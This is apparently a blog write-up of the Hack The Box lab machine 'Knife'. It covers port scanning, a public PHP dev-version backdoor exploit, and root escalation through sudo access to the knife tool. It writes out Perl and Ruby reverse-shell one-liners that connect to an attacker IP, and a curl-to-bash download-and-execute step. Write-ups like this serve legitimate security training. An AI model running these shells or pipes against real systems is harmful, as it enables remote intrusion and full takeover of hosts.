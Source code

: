 ```yaml
---
title: "HTB: Knife Writeup"
date: 2021-06-13T23:14:00-07:00
categories:
  - blog
  - writeup
  - htb
tags:
  - htb
  - htb easy
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration
I began the same as always, with an nmap scan

```bash
# Nmap 7.91 scan initiated Fri Jun 11 13:42:53 2021 as: nmap -sC -sV -oA nmap/knife 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 11 13:43:12 2021 -- 1 IP address (1 host up) scanned in 18.50 seconds
```

Browsing to port `80`, there doesn't appear to be much on it. Running Nikto to see if anything interesting pops up

```bash
$ nikto -host http://10.10.10.242
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    10.10.10.242
+ Target Port:        80
+ Start Time:         2021-06-11 13:45:33 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 7863 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-06-11 13:56:18 (GMT-4) (645 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

That's something interesting, a dev version of PHP, doing a little google search reveals [exploit-db 49933](https://www.exploit-db.com/exploits/49933).

Running it instantly gives a stateless interactive shell!

```bash
$ python3 49933.py
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ whoami
james
```

Crafting a simple perl reverse shell

```bash
$ cat rshell.pl
perl -e 'use Socket;$i="10.10.14.204";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

And piping that through bash

```bash
$ curl 10.10.14.204/rshell.pl | bash
```

Success! We now have an ok interactive shell!

# Privesc

After a big of looking around, it turns out that we can execute the `knife` programs as root. Exploring the help, there's a very interesting line

```
** EXEC COMMANDS **
knife exec [SCRIPT] (options)
```

We can execute commands commands? Well that seems nice. After playing with this a bit, it turns out that it's allows execution of Ruby scripts. So I crafted a little Ruby reverse shell as follows:

```bash
$ cat rshell.rb
exec("perl -e 'use Socket;$i=\"10.10.14.204\";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'")
```

Copied it over to the server and executed it with the `knife` program

```bash
$ wget 10.10.14.204/rshell.rb
$ sudo knife exec /tmp/rshell.rb
```

And catching that reverse shell gives us root!!
